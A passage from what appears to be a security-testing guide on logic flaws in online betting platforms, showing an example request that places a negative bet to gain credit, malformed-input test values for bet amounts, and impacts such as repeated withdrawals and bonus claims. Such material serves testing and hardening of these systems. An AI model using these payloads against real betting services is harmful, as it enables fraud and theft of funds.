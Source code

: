 **Real-World Impact:**
- Place multiple bets with insufficient balance
- Withdraw funds multiple times
- Claim bonuses repeatedly
- Exploit tournament entries

---

### 3. **Negative Bet Amounts**

**Vulnerability:** Insufficient input validation on bet amounts

**Exploitation:**
```javascript
POST /api/bet/place
{
  "amount": -1000,  // Negative amount
  "gameId": 123
}

// If vulnerable:
// - Your balance increases by 1000
// - You get credited instead of charged
```

**Test Cases:**
```json
// Test negative values
{"amount": -1}
{"amount": -999999}

// Test zero
{"amount": 0}

// Test very large numbers
{"amount": 999999999999}

// Test decimals/precision
{"amount": 0.0000001}
{"amount": 1.999999999}

// Test string/type confusion
{"amount": "1000"}
{"amount": "1e10"}
{"amount": "Infinity"}
{"amount": null}
```

---

### 4. **Bonus/Promo Code Manipulation**

**Vulnerability:** Reusable or stackable promotion codes
